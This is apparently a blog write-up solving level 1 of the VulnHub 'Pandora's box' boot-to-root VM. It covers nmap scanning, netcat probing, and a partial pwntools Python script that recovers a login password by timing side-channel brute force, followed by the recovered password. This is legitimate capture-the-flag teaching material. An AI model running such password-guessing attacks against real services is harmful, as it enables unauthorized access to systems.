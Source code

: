 ### Pandoras box Level *1* of *5*



![](https://www.vulnhub.com/media/img/entry/watermarked/2c242db3c7efd1c6a0c07c3fdc4a4fc15319ed95.png)

---

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_site.png)
---------------------------------------------------------------------

About:
Pandora's box is a Boot2Root VM focused on binary exploitation and
reverse engineering. You have to complete all levels to r00t the box.
Some levels come with a README file which you should read.

---

This is the first level of the challenge, an OVA file is provided in the challenge [link](https://www.vulnhub.com/entry/pandoras-box-1,111/) booting up the ova file in to VM ware player we have

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando.gif)

after booting up the box, we are left with a prompt to enter username and password, we tried some random guesses with no avail
well this a boot-to-root challenge my first of a kind that has to do with a combination of reveng and binary exploitation, knowing this
let's try and search for the machines IP address and scan for open ports

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_ip.png)

Using the command `arp -a` we were able to get the machine IP address that I configured the network adapter binded to vmnet1 which we confirmed by comparing the shown macadress with the machine's ip address.

using this ip address let's scan the machine using NMAP we have :

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_service_scan.png)

we use the NMAP command `sudo nmap -sV -SN -sC 192.168.17.129`, and we got some results, an open port to SSH on port 22/TCP, let's try a deeper scan to scan all port using the `-p-` args to the command we have::

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_all_scan.png)

doing so we were able to get an additional open port running on port 54311 with service Nagios NSCA

let's try connecting to it using netcat we have ::

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_login_lvl1.png)

we could see a password prompt asking us for a password, we try some random string with no luck, and then I went to google to do some reconnaissance on possible vulnerabilities for Nagios logging

<p><h5>That eureker moment!!!</h5></p>

And Whalaaaaa, we found that it's vulnerable to timing attack; In cryptography, a timing attack is a side-channel attack in which the attacker attempts to compromise a cryptosystem by analyzing the time taken to execute cryptographic algorithms. More info [here](https://en.wikipedia.org/wiki/Timing_attack)

Base on this info we could craft a Python script that connects to the remote port on 54311 using pwntools and attempts to guess the password by measuring the time it takes to receive a response from the server.

Abiding to this timing attack principle we have ::

```
#!/usr/bin/python3

from pwn import *
from time import time
from string import *

ip = "192.168.17.129"
port = 54311

sample_space =  ascii_letters + digits

p = remote(ip, port)

<!--snip>
#script incomplete
<!--snip>

while not done:
	curr_val = ''
	first = True
	for chars in sample_space:
		current = flag
		current += chars
		ttt = chcktime(current)
		ttt = chcktime(current)

		if first:
			min_diff = ttt
			first = False

		if ttt < min_diff:
			min_diff = ttt
			curr_val = chars
	
	flag += curr_val
	print(flag)
	p.sendlineafter(b":", flag.encode())
	status = p.recvuntil(b"\n")

	if b"Logged" in status:
		done = True
```

full script [here](https://Cyberguru1.github.io/posts/VulnHub/images/script.py)

Here's a breakdown of the code:

- The script sets the IP address `(ip)` and port number `(port)` for the remote server.
- The `sample_space` variable contains a string of ASCII letters and digits, which will be used to construct the password.
- The script establishes a connection to the remote server using `p = remote(ip, port)`.
- The `chcktime` function measures the time it takes to receive a response from the server after sending a password attempt. It sends the password attempt, receives the server's response, and calculates the time difference between sending and receiving the response.
- The main loop of the script repeatedly selects a character from sample_space and appends it to the flag variable. It then measures the time it takes to receive a response from the server after sending the updated password attempt.
- The script keeps track of the minimum time difference `(min_diff)` and the character that resulted in the minimum time difference `(curr_val)`.
- After each iteration of the loop, the selected character is appended to the `flag` variable and sent to the server.
- If the server responds with "Logged in ", indicating that the correct password has been guessed, the loop is terminated.
- The script prints the current value of `flag` after each iteration to show the progress of the password guessing.

After running the code for a while we have:

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_lvl1_flag.gif)

<p><h5>Running the script</h5></p>

This the final password:

![](https://Cyberguru1.github.io/posts/VulnHub//images/pando_lvl1_flag.png)

we got the password as `R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG0d`, using this to login we have

![](https://Cyberguru1.github.io/posts/VulnHub//images/pando_lvl1_sucess.png)

And boooom!!!

we are in!!!!!.....................

The next solution to level *2* would be dropped soon ..............

Arigato :<^>:

